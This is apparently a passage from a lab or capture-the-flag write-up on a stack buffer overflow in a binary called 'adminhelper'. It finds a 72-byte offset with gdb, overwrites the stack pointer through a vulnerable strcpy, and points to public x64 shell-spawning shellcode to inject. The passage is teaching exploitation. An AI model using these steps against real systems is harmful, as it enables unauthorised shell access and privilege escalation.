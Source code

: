 
examine the “A” sent initially and subtracted 55 from the total

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    
    #aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (subtracted 55)

our remaining number and/or offset = 72

re-run gdb with argv of 72 and additional text to ensure we are filling the `$rsp` with “a” and taking over the `$rsp`

    gdb --args ./adminhelper AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbcdefghi

which is 72 “a”s and “bcdefghi” which should be the “rsp”.

break-main

    break main

run application

    run

continue

    c

crash:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552839452514_image.png)


Disassemble the main

    disassemble

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552839482756_image.png)


we are exploiting this “strcpy” command that is vulnerable to the buffer overflow.

inspect the `$rbp`

    x/s $rbp

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552839534794_image.png)


here are our “A”s 

inspect the `$rsp`

    x/s $rsp

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552839589299_image.png)


here are teh extra bytes we took over the rsp with. We need to inject the shell code into this rsp location!


shellcode payload for x64 systems will result in a shell via push. This is provided by 
link: http://shell-storm.org/shellcode/files/shellcode-806.php 
along with exploit-db
link: https://www.exploit-db.com/exploits/36858
